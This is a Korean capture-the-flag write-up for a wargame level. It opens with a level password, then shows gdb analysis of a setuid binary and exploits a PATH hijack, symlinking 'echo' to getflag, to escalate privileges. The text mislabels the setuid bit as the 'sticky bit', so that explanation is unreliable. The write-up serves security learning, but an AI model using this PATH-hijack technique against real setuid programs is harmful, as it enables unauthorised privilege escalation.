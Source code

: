 > Password: kooda2puivaav1idi4f57q8iq

# 접근 방법

```
$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
`level03` 실행 파일에 `Sticky bit`가 설정되어 있음을 알 수 있다. 이것이 owner, group에 각각 설정되어 있다. 이것이 설정된 해당 프로그램을 실행할 때, `seteuid` 또는 `setegid` 로 Effective UID 또는 Effective GID가 일시적으로 변경되어 실행된다.

`Effective UID/GID`는 실제로 프로그램을 실행한 사용자인 `Real UID/GID`와는 다르다.

따라서 `Effective UID/GID`가 변경된 프로그램이 취약점을 갖고 실행될 경우, **권한이 탈취될 수 있는 위험성**이 있다는 것을 알 수 있다.

홈 디렉토리에 제공된 `level03` 실행 파일을 gdb로 분석했을 때 `main`함수 마지막 부분의 내용이 다음과 같았는데

```
0x080484f7 <+83>:	mov    DWORD PTR [esp],0x80485e0
0x080484fe <+90>:	call   0x80483b0 <system@plt>
```

이때 `0x80485e0` 주소에는 `"/usr/bin/env echo Exploit me"` 라는 문자열이 들어있었다.

따라서 같은 역할을 하는 코드를 C로 작성하면

```c
system("/usr/bin/env echo Exploit me");
```

과 같은 형태가 되는데,

이 코드는 `env`가 변조되었을 때 잘못된 `echo`를 실행할 수 있는 위험이 있는 코드이다. 따라서 `tmp` 디렉토리에 `echo`라는 이름의 `getflag`로 향하는 심볼릭 링크를 걸고 프로그램을 실행시키면 다음 레벨의 비밀번호가 나온다.

```bash
> ln -s /bin/getflag echo
> PATH=. ~/level03
```
